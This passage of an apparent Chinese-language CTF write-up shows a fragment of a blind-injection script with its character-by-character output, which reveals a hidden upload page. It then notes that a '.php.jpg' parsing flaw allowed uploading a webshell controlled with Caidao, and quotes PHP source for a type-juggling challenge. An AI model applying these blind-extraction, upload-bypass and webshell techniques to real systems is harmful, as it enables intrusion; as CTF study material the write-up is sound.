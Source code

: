 ```python
        if "password error!" in r.text:
            flag += chr(i-1)
            print(flag)
            break
```

output: 

```
λ python3 blind.py       
d                        
dV                       
dVA                      
dVAx                     
dVAxM                    
dVAxME                   
dVAxMEB                  
dVAxMEBk                 
dVAxMEBkX                
dVAxMEBkX2               
dVAxMEBkX25              
dVAxMEBkX25F             
dVAxMEBkX25Fd            
dVAxMEBkX25Fdy           
dVAxMEBkX25Fdy5          
dVAxMEBkX25Fdy5w         
dVAxMEBkX25Fdy5wa        
dVAxMEBkX25Fdy5waH       
dVAxMEBkX25Fdy5waHA      
dVAxMEBkX25Fdy5waHA=     
dVAxMEBkX25Fdy5waHA=/    
dVAxMEBkX25Fdy5waHA=//   
dVAxMEBkX25Fdy5waHA=///  
dVAxMEBkX25Fdy5waHA=//// 
dVAxMEBkX25Fdy5waHA=/////
```

解码得`uP10@d_nEw.php`，是一个文件上传，同上一道题，`.php.jpg`解析错误，传马后菜刀连接得flag



***

### 奇怪的恐龙特性 

我觉得不止恐龙奇怪，PHP和出题人都挺奇怪的。

```php
 <?php
highlight_file(__FILE__);
ini_set("display_error", false); 
error_reporting(0); 
$str = isset($_GET['A_A'])?$_GET['A_A']:'A_A';
if (strpos($_SERVER['QUERY_STRING'], "A_A") !==false) {
    echo 'A_A,have fun';
}
elseif ($str<9999999999) {
    echo 'A_A,too small';
}
elseif ((string)$str>0) {
    echo 'A_A,too big';
}
else{
    echo file_get_contents('flag.php');
    
}

```